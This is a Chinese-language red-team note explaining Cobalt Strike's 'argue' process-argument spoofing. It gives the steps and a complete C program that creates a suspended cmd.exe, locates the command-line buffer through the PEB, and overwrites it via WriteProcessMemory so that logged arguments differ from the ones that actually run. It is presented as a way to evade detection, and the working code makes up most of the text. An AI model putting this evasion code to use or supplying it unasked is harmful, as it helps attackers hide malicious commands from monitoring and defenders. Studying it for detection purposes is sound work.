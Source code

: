 # CobaltStrike Argue伪装命令

## 简介

在Cobalt Strike 3.13版本的时候引入了一个进程参数欺骗的技术\(虽然现在都4.0了\)，可以使进程在创建时记录的参数与实际运行时不同，在原理上几乎与命令行伪装一样，只是有一些流程上的不同，这里不过多赘述详见[伪装命令行规避检测](fake-commandline.md)。

## 利用流程

1. 创建一个挂起的cmd或powershell进程。
2. 读取peb内的RTL\_USER\_PROCESS\_PARAMETERS结构体。
3. 定位到commandline的buffer指针。
4. 修改buffer的存放的commandline。

## 代码实现

```text
#include <stdio.h>
#include <Windows.h>
#include <winternl.h>


typedef DWORD(*pNtQueryInformationProcess) (HANDLE, PROCESSINFOCLASS, PVOID, ULONG, PULONG);

int main()
{

	ULONG lenght = 0;
	HMODULE hModule;
	PROCESS_BASIC_INFORMATION ProcessInformation;
	pNtQueryInformationProcess NtQueryInformationProcess;
	wchar_t CommandLine[] = L"C:\\Windows\\system32\\cmd.exe /c dir";
	//.&& whoami / priv && pause"
	wchar_t CurrentDirectory[] = L"C:\\Windows\\system32\\";

	hModule = LoadLibraryA("ntdll.dll");

	STARTUPINFOA si = { 0 };
	si.cb = sizeof(si);
	PROCESS_INFORMATION pi = { 0 };

	CreateProcessA(NULL, (LPSTR)"C:\\Windows\\system32\\cmd.exe /c whoami", NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &si, &pi);

	NtQueryInformationProcess = (pNtQueryInformationProcess)GetProcAddress(hModule, "NtQueryInformationProcess");
	NtQueryInformationProcess(pi.hProcess, ProcessBasicInformation, &ProcessInformation, sizeof(ProcessInformation), &lenght);
	
	RTL_USER_PROCESS_PARAMETERS rupp = { 0 };
	PEB peb = { 0 };

	ReadProcessMemory(pi.hProcess, ProcessInformation.PebBaseAddress, &peb, sizeof(peb), NULL);
	ReadProcessMemory(
		pi.hProcess,
		peb.ProcessParameters,
		&rupp,
		sizeof(RTL_USER_PROCESS_PARAMETERS)
		, NULL);

	WriteProcessMemory(pi.hProcess, (LPVOID)rupp.CommandLine.Buffer, CommandLine, sizeof(CommandLine), NULL);
	ResumeThread(pi.hThread);

	return 0;
}
```

